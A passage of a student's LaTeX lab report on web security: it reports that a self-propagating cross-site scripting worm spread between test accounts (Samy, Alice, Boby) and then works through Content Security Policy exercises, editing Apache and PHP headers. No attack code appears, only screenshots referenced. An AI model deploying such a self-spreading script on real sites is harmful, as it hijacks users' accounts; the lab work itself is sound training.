[width=.9\linewidth]{./images/7.jpg}
\end{center}
\begin{itemize}
\item If I logout as Samy and log back in as Alice and navigate to Sam's page, her About Me section is changed to the malicious message I included in my attack, as expected. Furthermore, if I logout and log back in as Boby and navigate to Alice's page, his About Me message is updated to the malicious message. Therefore the code is self-propagating and the attack was a success.
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/6.jpg}
\end{center}

\section*{Task 7:}
\label{sec:org1a08f56}
\begin{itemize}
\item Question 1 and 2:
\begin{itemize}
\item example32a.com
\begin{itemize}
\item 1-6 are OK
\item On button click, displays alert "JS Code executed"
\item all because CSP not enabled
\end{itemize}
\item example32b.com
\begin{itemize}
\item 1-3 and 5 Failed
\item 4 and 6 are OK
\item On button click, nothing happens
\item all because CSP header only allows for JS from self and the example70.com domain.
\end{itemize}
\item example32c.com
\begin{itemize}
\item 2, 3, and 5 FAILED
\item 1, 4, and 6 are OK
\item On button click, nothing happens
\item all because the PHP file's CSP header allows JS from self, the example70.com domain, and nonce-111-111-111
\end{itemize}
\end{itemize}
\item Question 3:
\begin{itemize}
\item For example32b.com, area 6 is already OK, but area 5 is not. In order to make area 5 OK we need to add *.example60.com to the script-src section of the www.example32.com VirtualHost in /etc/apache2/sites-available/apache\textsubscript{csp.conf}. See screenshot. After writing the file, I ran service apache2 restart. When refreshing the \url{http://www.example32b.com} site I not get area 5 and 6 showing OK. See screenshot.
\item Code:
\begin{itemize}
\item \begin{center}

\includegraphics[width=.9\linewidth]{./images/9.jpg}
\end{center}
\end{itemize}
\item Result:
\begin{itemize}
\item \begin{center}

\includegraphics[width=.9\linewidth]{./images/8.jpg}
\end{center}
\end{itemize}
\end{itemize}
\item Question 4:
\begin{itemize}
\item For example32c.com, area 4 and 6 are already OK, but 2 and 5 are not. In order to make them okay I needed to add *.example60.com and nonce-222-222-222 to the cps header in /var/www/csp/phpindex.php. See screenshot. After writing the file, I ran service apache2 restart. When refreshing the \url{http://www.example32c.com} site, I get the expected output. See screenshot.
\item Code:
\begin{itemize}
\item \begin{center}

\includegraphics[width=.9\linewidth]{./images/011.jpg}
\end{center}
\end{itemize}
\item Result:
\begin{itemize}
\item \begin{center}

\includegraphics[width=.9\linewidth]{./images/010.jpg}
\end{center}
\end{itemize}
\end{itemize}
\item Question 5:
\begin{itemize}
\item CSP defends against cross-site-scripting attacks by restricting JavaScript code from unintended sources. It also restricts other page contents like limiting where images, audio, and video come from.
\end{itemize}
\end{itemize}
\end{document}